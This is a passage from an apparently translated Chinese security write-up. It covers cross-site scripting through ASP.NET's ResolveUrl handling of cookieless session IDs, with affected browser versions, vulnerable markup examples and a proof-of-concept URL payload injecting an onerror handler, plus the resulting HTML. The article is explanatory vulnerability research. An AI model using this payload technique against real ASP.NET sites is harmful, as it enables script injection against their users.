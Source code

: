 | ASP.NET version | <%=Environment.Version%> == 4.0.30319.42000                  |
| --------------- | ------------------------------------------------------------ |
| Firefox         | 69.0.1 (64-bit) (the newest version)                         |
| Microsoft Edge  | 44.17763.1.0 (the newest version)                            |
| Chrome          | 77.0.3865.90 (Official Build) (64-bit) [XSS Auditor needs to be disabled] |

(译者注，似乎是个通杀全版本ASP.NET version的洞，复现在文章最后)

### 其他方式

`scirpt`标签并非唯一会使用`ResolveUrl`的HTML标签，`link`，`a`，`img`等其他标签同样会使用.下面的代码包含了能导致XSS的HTML标签(对于`a href`，请使用`onmouseover`或`onclick`代替`onerror`，否则无法使用)。

```
<script src="<%= ResolveUrl("~/file.js") %>"></script>
<link href="<%= ResolveUrl("~/file.css") %>" rel="stylesheet">
<img src="<%= ResolveUrl("~/file.jpg") %>" />
<a href="<%= ResolveUrl("~/file.aspx") %>">click</a>
```

幸运的是，`ResolveUrl`并非唯一的能将`~`解析为webapp根目录的方法.让我们快速浏览一下其他ASP.NET功能在处理URL中的cookieless session ID时的行为。

```
<!-- run src attribute on the server side as an HTML Control -->
<img src="~/file.jpg" runat="server" />

<!-- run as Web Control -->
<asp:Image ID="Image1" runat="server" ImageUrl="~/file.jpg" />

<!-- run as ResolveUrl -->
<img src="<%= ResolveUrl("~/file.jpg") %>" />
```

然后访问最简易的payload:

```
http://localhost/A/B/C/(A(%22onerror=%22alert`1`%22))/default.aspx
```

得到以下结果:

```
<!-- run src attribute on the server side as an HTML Control -->
<img src="../../../file.jpg" />

<!-- run as Web Control -->
<img id="Image1" src="../../../file.jpg" />


<!-- run as ResolveUrl -->
<img src="/(A("onerror="alert`1`"))/file.jpg" />
```

web control 和HTML control在解析`~`时，省略了URL的cookieless部分.不幸的是，我们无法在这些地方进行XSS攻击。
